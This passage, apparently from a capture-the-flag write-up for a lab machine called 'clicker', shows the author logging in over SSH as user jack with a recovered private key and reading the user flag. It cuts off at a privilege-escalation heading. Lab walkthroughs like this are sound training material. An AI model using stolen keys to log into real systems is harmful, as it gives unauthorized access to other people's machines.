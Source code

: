 Save key to test and connect via ssh:

```bash
$ nano test
$ ssh -i test jack@10.10.11.232
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-84-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Sep 29 03:04:18 PM UTC 2023

  System load:           0.138671875
  Usage of /:            53.8% of 5.77GB
  Memory usage:          23%
  Swap usage:            0%
  Processes:             280
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.232
  IPv6 address for eth0: dead:beef::250:56ff:feb9:63a0

  => There is 1 zombie process.


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Sep 29 14:25:43 2023 from 10.10.15.1
jack@clicker:~$ id
uid=1000(jack) gid=1000(jack) groups=1000(jack),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)
jack@clicker:~$ ls
queries  user.txt
jack@clicker:~$ cat user.txt
27948ad81853c9104d8eceb9ee0e9ee1
jack@clicker:~$
```

## Privilege escalation

Let's see what a user can do with sudo:
